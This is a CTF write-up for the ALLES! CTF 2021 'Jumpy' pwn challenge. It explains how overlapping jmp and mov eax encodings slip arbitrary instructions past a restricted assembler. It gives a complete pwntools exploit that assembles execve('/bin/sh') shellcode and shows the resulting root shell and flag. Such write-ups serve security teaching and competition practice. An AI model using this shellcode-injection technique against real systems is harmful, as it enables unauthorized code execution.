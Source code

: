 ## Jumpy

> Points: 139
>
> Solves: 82

### Description:
```
https://github.com/mito753/CTF/blob/main/2021/ALLES!_CTF_2021/Pwn_Jumpy/41zPfaL3WFL.jpg
```

### Attachments:
```
jumpy  https://static.allesctf.net/ab1671dfdbc9923949d2dbc2bf1ff66006f86bb623cd9b2cbf94ce3f631dfbdd/jumpy
jumpy.c  https://static.allesctf.net/e8f31b0fc631eb709049df0d42491ddca1562a016474c10fdb03cf66f58113c8/jumpy.c
```

## Analysis:

The C language source code is provided below.


When you execute the jampy program, you can see that only 3 instructions can be specified.
supported insns:
- moveax $imm32
- jmp $imm8
- ret
- (EOF)

After the jmp instruction, it is checked if the next instruction is mov eax or jmp or ret.

```c
const instruction_t INSNS[3] = {
    {"ret", OP_RET},
    {"jmp", OP_SHORT_JMP},
    {"moveax", OP_MOV_EAX_IMM32},
};

const instruction_t *isns_by_mnemonic(char *mnemonic)
{
    for (int i = 0; i < sizeof(INSNS) / sizeof(INSNS[0]); i++)
        if (!strcmp(mnemonic, INSNS[i].mnemonic))
            return &INSNS[i];
    return NULL;
}
```

## Solution:

Since there is no instruction check after mov eax, I can execute any 4-byte instruction by made the following instruction sequence.

jmp 1
moveax 0xb8
moveax (Arbitrary 4-byte instruction)

```
             mov eax
          +-----------+
          |           |        
eb 01 b8 b8 00 00 00 b8 xx xx xx xx
|         ^
|         |
+---------+
   jmp 1

```

Since "/bin/sh" has 4 bytes or more and the mmap area (0x1337000000) cannot be written, the character string of "/bin/sh" was made on the stack.
```
mov bx, 0x68
shl rbx, 16
mov bx, 0x732f
shl rbx, 16
mov bx, 0x6e69
shl rbx, 16
mov bx, 0x622f
push rbx; mov rdi, rsp
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './jumpy'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  s = process("ncat --ssl 7b000000d136daaf77c18b37-jumpy.challenge.master.allesctf.net 31337", shell=True)
else:
  s = process(BINARY)
 
def Set_ins(data):
  s.sendlineafter("> ", "jmp 1")
  s.sendlineafter("> ", "moveax 184")
  s.sendlineafter("> ", "moveax " + str(u32(data)))

# rsi = 0; rdx = 0
Set_ins(asm('''xor rsi, rsi; nop'''))
Set_ins(asm('''push rsi; pop rdx; nop; nop'''))

# make /bin/sh in stack
Set_ins(asm('''mov bx, 0x68'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x732f'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x6e69'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x622f'''))
Set_ins(asm('''push rbx; mov rdi, rsp'''))

# rax = 0x3b
# syscall
Set_ins(asm('''xor rbx, rbx; nop'''))
Set_ins(asm('''add rbx, 0x3b'''))
Set_ins(asm('''push rbx; pop rax; syscall'''))

# Start shell
s.sendlineafter("> ", "a")

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/ALLES!_CTF_2021/Pwn_Jumpy$ python solve.py r
[*] '/home/mito/CTF/ALLES!_CTF_2021/Pwn_Jumpy/jumpy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/bin/sh': pid 62372
[*] Switching to interactive mode

running your code...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls -l
total 92
lrwxrwxrwx   1 root root     7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root  4096 Apr 15  2020 boot
drwxr-xr-x   5 root root   360 Sep  4 08:08 dev
drwxr-xr-x   1 root root  4096 Sep  4 08:08 etc
-rw-r--r--   1 root root   100 Aug 29 22:12 flag
drwxr-xr-x   2 root root  4096 Apr 15  2020 home
-rwxr-xr-x   1 root root 19768 Aug 29 22:12 jumpy
lrwxrwxrwx   1 root root     7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root  4096 Aug 27 07:16 media
drwxr-xr-x   2 root root  4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root  4096 Aug 27 07:16 opt
dr-xr-xr-x 783 root root     0 Sep  4 08:08 proc
drwx------   2 root root  4096 Aug 27 07:27 root
drwxr-xr-x   5 root root  4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root     8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root     0 Sep  4 08:08 sys
drwxrwxrwt   2 root root  4096 Aug 27 07:27 tmp
drwxr-xr-x  13 root root  4096 Aug 27 07:16 usr
drwxr-xr-x  11 root root  4096 Aug 27 07:27 var
-rwxr-xr-x   1 root root 18744 Aug 29 22:12 ynetd
$ cat flag
ALLES!{people have probably done this before but my google foo is weak. segmented shellcode maybe?}
```
